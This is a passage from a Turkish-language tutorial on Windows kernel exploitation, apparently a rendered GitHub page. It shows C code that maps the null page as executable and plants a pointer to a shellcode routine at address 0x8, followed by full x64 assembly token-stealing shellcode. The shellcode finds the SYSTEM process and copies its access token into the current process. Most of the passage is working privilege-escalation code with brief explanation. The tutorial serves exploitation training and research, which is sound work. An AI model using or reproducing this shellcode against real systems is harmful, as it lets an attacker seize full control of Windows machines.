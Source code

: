 ```c
		PAGE_EXECUTE_READWRITE);

if(NtStatus != STATUS_SUCCESS)
{
	printf("Alan ayiramadik : %x :(\n", NtStatus);
	goto RETURN;
}

//
// 0x0 + 0x8 uzaklığına, bizim "token" çalan "shellcode"umuzu koy
//
*(unsigned long long*)0x8 = (unsigned long long)&cakal;
...
...
```

### "*Shellcode*"'da Minik Düzeltme

Hatırlarsanız önceki "*exploit*"imizin sonunda sistemin çökmeden çalışmaya devam edebilmesi için yığını temizleyen bir komut koymuştuk. Şimdiki örneğimizde "*shellcode*"umuzda değişen tek şey artık buna ihtiyaç olmaması. Nedeni gayet basit, zira artık yığını bozmuyoruz, çalışma nasıl gerekiyorsa o şekilde dışarıdan bir müdahale olmadan devam ediyor. Bu nedenle gerekli temizlikleri fonksiyonun kendisi zaten yapıyor, dolayısıyla bizim ek bir şey yapmamıza gerek yok. Netice olarak bu defa kullanacağımız "*shellcode*"muz şu şekilde:

```assembly
[BITS 64]

%define SYSTEM_PID 0x4
%define TOKEN_OFFSET 0x80
%define KTHREAD_OFFSET 0x188
%define EPROCESS_OFFSET 0x70
%define PROCESSLIST_OFFSET 0x188
%define CURRENTPROC_OFFSET 0x208

;------------------------------------------------------------------------------
    push rax                            ; rax yazmacını yigina yedekle (geri donus degeri)
    mov rdx, [gs:KTHREAD_OFFSET]        ; Çalışan işlemciğin KTHREAD veri yapısı
    mov r11, [rdx + EPROCESS_OFFSET]    ; r11 = Şimdiki İşlemin EPROCESS yapisi
    mov r10, [r11 + PROCESSLIST_OFFSET] ; r10 = ActiveProcessLinks (LIST_ENTRY)
    mov rcx, [r10]                      ; rcx = ListEntry->Next, yani sonraki EPROCESS
sistemi_bul:
    mov rdx, [rcx - 8]                  ; rdx = İncelenen işlemin belirteci 
    cmp rdx, SYSTEM_PID                 ; 4 mü?
    jz bulundu                          ; eveeet!
    mov	rcx, [rcx]                      ; değil, rcx = ListEntry->Next
    jmp sistemi_bul                     ; yukarı kaç
bulundu:
    mov rax, [rcx + TOKEN_OFFSET]       ; Aha! Sistem geldi, Token adresini al
    and al, 0xf0                        ; İşimize yaramayan son 4 biti sıfırla
bizi_yukselt:
    mov [r11 + CURRENTPROC_OFFSET], rax ; Bizim işlemin "Token"inin yerine koy
cikis:
    pop rax                             ; rax yazmacini geri al
    ret                                 ; Geldiğin yere geri dön
```
